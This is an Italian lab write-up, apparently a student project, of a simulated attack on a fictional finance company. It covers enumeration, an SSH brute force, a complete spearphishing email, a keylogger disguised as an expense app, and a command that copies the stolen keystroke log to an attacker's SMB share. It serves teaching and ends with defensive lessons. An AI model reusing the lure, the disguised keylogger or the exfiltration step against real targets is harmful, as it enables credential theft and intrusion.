





<br>


<br>

# **La Morsa del Cyber Crimine**: Esplorazione di un Attacco Multi-Fase, da Spearphishing a Furto di Dati

<br>

## **Introduzione**

---

### Descrizione dell'attacco

Mi suppongo un attaccante, l'attacco che ho creato inizia con la fase di enumerazione, dove raccolgo le informazioni su un'azienda e i suoi dipendenti. Successivamente, lancio un attacco di spearphishing mirato, seguito dall'iniezione di un keylogger, con l'aiuto del bersaglio, sottoforma di software lecito. Il keylogger mi permetterà di rubare le credenziali di accesso (e qualsiasi cosa il bersaglio digiti), che potrebbero venire utilizzate per accedere a informazioni sensibili ed esportarle.

### Strumenti utilizzati

 Io opererò da Kali Linux, mentre il bersaglio opererò su Windows 2010. L'implemetazione del Manager di spesa l'ho strutturata da un file base di un keylogger visto su YouTube [4]. L'arricchimento riguarda la scelta della directory per salvare il file log.txt, e l'aggiunta della registrazione dei tasti tenuti premuti DA RIVEDERE. In seguito ho programmato l'interfaccia utente del manager usando la libreria Tkinker di python [5]. In fine ho convertito il file da .py in .pyw (segue la spegazione) e in .exe con la libreria Pyinstaller di Python, personalizzando anche l'icona dell'eseguibile.

<br>

## **Fase 0: Enumeration**

---

L'enumerazione è la fase preliminare di questo attacco.

### Tecniche di Enumerazione

Come attaccante posso utilizzare diverse tecniche per identificare e raccogliere informazioni su un bersaglio, tra cui:

+ Social Media: monitorando i profili social dei dipendenti per raccogliere informazioni personali e professionali che possono essere utilizzate per l'attacco.

+ LinkedIn: identificando alcuni dipendenti chiave dell'azienda e raccoglie informazioni sul loro ruolo e sui loro interessi professionali.

+ Whois Lookup: ottenendo delle informazioni sui registranti di domini aziendali, che possono includere nomi, indirizzi e contatti.

+ Nmap: utilizzando questo strumento di scansione di rete sui dispositivi e servizi in della rete del bersaglio per identificare host attivi, porte aperte e servizi in esecuzione su tali porte.

### Scoperte nella fase di enumerazione

Sono interessata a un'azienda del settore finanziario di nome "Finanza Viva" (non esiste realmente). Durante la fase di enumerazione ho raccolto molte informazioni pubbliche sulla azienda e sui suoi dipendenti.
Attraverso Whois Lookup e Shodan trovo l'indirizzo IP 10.0.2.4 associato (supponiamo non sia privato). A questo punto procedo con la scansione di 10.0.2.4 utilizzando Nmap con l'opzione -sV (Service Version Detection: Nmap tenta di identificare quali servizi sono attivi sulle porte e quali versioni specifiche di quei servizi sono in uso):



L'output rivela che l'azienda "Finanza Viva" ha configurato una device Windows in cui sono attivi i servizi SSH sulla porta 22 e SMB sulla porta 445 (COS'+ WINDOWS NETBIOS?).

<br>

## **Fase 1: Valid Account**

---

Dopo aver identificato i servizi SSH e SMB attivi sulla rete dell'azienda "Finanza Viva", procedo con l'utilizzo di Hydra per effettuare un attacco di forza bruta contro il servizio SSH all'indirizzo IP 10.0.2.4 e ottenere accesso ai sistemi. L'attaccante usa le opzioni -L e -P per specificare rispettivamente due dizionari, che mi sono costruita, di nomi utenti User e di password Password per trovare le credenziali del servizio SSH.



Scopro l'uso di credenziali predefinite da parte dell'amministratore, e procedo con l'autenticazione a SSH.



Ottengo l'accesso alla shell nel dispositivo dell'azienda e, con il comando whoami, verifica l'identità della shell (che è quella dell'amministratore). 

Effettuo una navigazione tra i file e scopro la presenza di un altro utente: Alessandro:


Nella cartella Documents di Alessandro, trovo un file di nome biglietto da visita, lo apro e trovo le informazioni di contatto di Alessandro come il nome completo e la mail. 



Ritorno alla fase di enumerazione e attraverso LinkedIn scopro che Alessandro è un grande appassionato della finanza e all'interno della azienda è il responsabile della gestione dei conti bancari.

<br> 

## **Fase 2: Spearphishing e Iniezione di un Keylogger**

---

Utilizzo le informazioni raccolte su Alessandro, per creare un'email altamente personalizzata. L'email finge di provenire da una rinomata azienda del settore finanziario che propone di testare in esclusiva una nuova applicazione di gestione della spesa. Il sottostante è il testo della mail che ho scritto:

<br>

<blockquote>
Da: teamgestorespese@gmail.com

A: <Alessandro.finanzaviva@gmail.com>

Oggetto: Partecipazione Esclusiva al Test del Nuovo Software di Gestione delle Spese

Ciao Alessandro,

Spero che tu stia bene! Siamo entusiasti di annunciarti che sei stato scelto per partecipare in esclusiva al test del nostro nuovo software per la Gestione Personale delle Spese.

Abbiamo notato il tuo interesse e la tua competenza nel campo finanziario e crediamo che il tuo feedback possa essere estremamente prezioso per noi mentre continuiamo a perfezionare e migliorare il nostro prodotto.

Il nostro team ha fatto un duro lavoro per sviluppare uno strumento intuitivo e potente che semplifichi la gestione delle spese personali, offrendo funzionalità avanzate e una user experience impeccabile.

Vorremmo invitarti a provare il software in anteprima e condividere con noi le tue opinioni, suggerimenti e eventuali problemi che potresti riscontrare durante l'utilizzo. Il tuo contributo sarà fondamentale per aiutarci a rendere il software il migliore possibile prima del lancio ufficiale.

Ti inviamo il link al software per iniziare il test. Se hai domande o hai bisogno di assistenza, non esitare a contattarci. Non vediamo l'ora di lavorare con te e di rendere questo software un successo insieme!

Cordiali saluti,

Il Team di Gestore di Spesa

</blockquote>

Alessandro accede alla sua casella di posta, e legge la mail proviente dal team di Gestore Spese. Interessato all'opportunità decide di fare il download dell'allegato all'e-mail. Il file in questione si presenta con il nome di "Gestore di spesa.exe" che è il file malevolo creato da me (l'attaccante).

### Programmazione del Keylogger e dell'interfaccia grafica del gestore

Ho programmato il "Gestore di spesa" con Python e nel codice sorgente ho inserito il keylogger.
Ho utilizzato la libreria Tkinter di Python per la creazione dell'interfaccia grafica relativa allo script. Per come è strutturata l'applicazione alla chiusura il Keylogger si attiva, registra tutti i tasti premuti da alessandro e li salva in un file log.txt nella cartella C:\Windows\Temp da me scelta. Il codice sottostante rappresenta l'applicazione completa e funzionante del "Gestore di spesa", la parte evidenziata dal quadrato rosso rappresenta solo il codice del keylogger:


Ho salva lo script .py in .pyw perchè questa seconda estensione permette di eseguire il programma senza aprire una finestra di console separata. Alla fine della programmazione l'attaccante trasforma lo script da .py a .exe sfruttando la libreria pyinstaller; essa prende lo script Python e genera un singolo file eseguibile che contiene tutte le dipendenze necessarie, inoltre, può essere eseguito su computer con Python non installato. Ho scelto una icona a mio piacimento e l'ho converte in .ico, dopo aver caricato la libreria pyinstaller sul sistema, eseguo il seguente comando: 
```shell
pyinstaller --onefile --icon=Icona.ico Gestore_di_spesa.py
```
Questo comando creerà nella directory che ho scelto il file Gestore_di_spesa.exe con l'immagine Icona.ico da me scelta. Successivamente ho cambiato il nome dell'eseguibile in "Manager Spesa".


### Funzionamento del Software Malevolo

Alessandro scarica e avvia il programma "Manager spesa.exe". Il programma si presenta come una legittima applicazione di gestione delle spese, consentendo all'utente di inserire e monitorare entrate e uscite.


Tuttavia, al momento della chiusura dell'applicazione, il keylogger nascosto si attiva e inizia a registrare qualsiasi tasto premuto dall'utente.

Dopo la chiusura dell'applicazione, si può notare come in gestione delle attività sia in esecuzione il Gestore di spesa in background:


### Raccolta dei Dati

Dopo aver chiuso il programma, il keylogger inizia a catturare tutte le informazioni digitate da Alessandro, inclusi:

+ Nomi utente e password in chiaro e nascosti.
+ Dati personali e finanziari inseriti nei siti web.
+ Comunicazioni via email e chat.

<br>

## **Fase 3: Estrazione Dati tramite SMB**

---

Dopo aver apettato un periodo di tempo ragionevole prima di estrarre il file con le informazioni, sfrutto il protocollo SMB per estrarre il file log.txt contenente le sequenze di tasti catturate.

### 1. Configurazione del Server SMB sull'Attaccante

Ho configurato il server SMB utilizzando lo strumento impacket-smbserver per creare una condivisione di rete, tra il dispositivo del bersaglio e il mio, alla quale posso accedere per copiare i file del bersaglio sul mio dispositivo. Il comando seguente avvia il server SMB sul mio computer:


Questo comando crea una condivisione SMB denominata hax nella directory da me scelta nella quale posso spostare i file della vittima.

### 2. Navigazione sulla Macchina della Vittima

Attraverso il protocollo SSH (scoperto precedentenente attivo sul dispositivo bersaglio con le relative credenziali valide), verifico la posizione del file log.txt generato dal keylogger. Il file è collocato nella directory C:\Windows\temp per costruzione del keylogger.


### 3. Copia del File log.txt tramite SMB

Utilizzo il comando copy di Windows per copiare il file log.txt dalla macchina della vittima alla condivisione SMB sul mio dispositivo. Ecco il comando eseguito sulla macchina della vittima attraverso il protocollo SSH:

```cmd
copy C:\Windows\temp\log.txt \\10.0.2.15\hax\log.txt
```


Dove 10.0.2.15 è l'indirizzo IP del mio dispositivo.

Posso verificare che lo spostamento del file è avvenuto nel terminale che ha usato per creare la condivisione SMB:


Esempio del file log.txt ottenuto:



Dai tasti digitati da Alessandro posso supporre che il bersaglio abbia visitato un sito di nome "intesa" e che "AlessandroFV" sia lo username, mentre "gigipolpetta" sia la password.

<br>

## **Conclusioni**

---

Gli eventi chiave dell'attacco sono:

+ l'assenza di limitazione all'accesso dei servizi SMB e SSH;
+ l'uso di credenziali predefinite da parte dell'amministratore;
+ inoltre è stato necessario l'aiuto dell'utente per eseguire il programma malevolo.

</div>

<br>

## **Riferimenti**

---

1. Nmap:
    + Nmap Official Website: <https://nmap.org/>

2. Hydra:
    + van Hauser, "Hydra - A very fast network logon cracker," THC, 2023. Disponibile: <https://github.com/vanhauser-thc/thc-hydra>

3. Trasferimento di file da e verso il server SMB dell'utente malintenzionato:
    + <https://juggernaut-sec.com/windows-file-transfers-for-hackers/#Transferring_Files_to_and_from_Attackers_SMB_Server>

4. File preso come esempio per la programmazione del keylogger:
    + https://www.youtube.com/watch?v=kQFl-MVrvwc&t=211s

5. Costruzione di gestore di spesa.exe con la libreria tkinter di python:
    https://www.programmareinpython.it/interfacce-grafiche-python-con-tkinter/1-introduzione-alle-gui-con-tkinter/

6. Creazione dell'eseguibile con la libreria pyinstaller:
    + https://pyinstaller.org/en/stable/
